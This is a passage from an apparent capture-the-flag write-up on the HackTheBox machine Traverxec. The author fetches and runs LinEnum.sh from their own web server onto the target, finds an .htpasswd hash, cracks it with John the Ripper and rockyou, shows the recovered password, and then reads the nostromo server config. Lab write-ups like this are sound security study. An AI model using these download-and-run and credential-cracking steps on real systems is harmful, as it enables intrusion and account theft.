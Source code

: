 I spin up a Python webserver on my local machine with `$ python3 -m http.server 8000` and use `wget` on the remote machine to pull down `LinEnum.sh` into the `/tmp` directory, make it executable with `chmod +x`, and run it.

In the output for `LinEnum.sh`, I see:

```bash
[-] htpasswd found - could contain passwords:
/var/nostromo/conf/.htpasswd
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
```

I put the line with the hash into its own file and run `john` on it to see if I can crack it.

```bash
$ john htpasswd -w=~/tools/wordlists/rockyou.txt
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Nowonly4me       (david)
1g 0:00:00:39 DONE (2020-04-07 07:21) 0.02540g/s 268760p/s 268760c/s 268760C/s Noyoo..Noury
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Looks like the password for `david` is `Nowonly4me`. (I never ended up using this cracked hash. I think this was a rabbit hole, but am including it for completeness.)


After exploring the box for a bit, I found this:

```bash
www-data@traverxec:/var/nostromo/conf$ cat nhttpd.conf
# MAIN [MANDATORY]

servername              traverxec.htb
serverlisten            *
serveradmin             david@traverxec.htb
serverroot              /var/nostromo
servermimes             conf/mimes
docroot                 /var/nostromo/htdocs
docindex                index.html

# LOGS [OPTIONAL]

logpid                  logs/nhttpd.pid

# SETUID [RECOMMENDED]

user                    www-data

# BASIC AUTHENTICATION [OPTIONAL]

htaccess                .htaccess
htpasswd                /var/nostromo/conf/.htpasswd

# ALIASES [OPTIONAL]

/icons                  /var/nostromo/icons

# HOMEDIRS [OPTIONAL]

homedirs                /home
homedirs_public         public_www
```
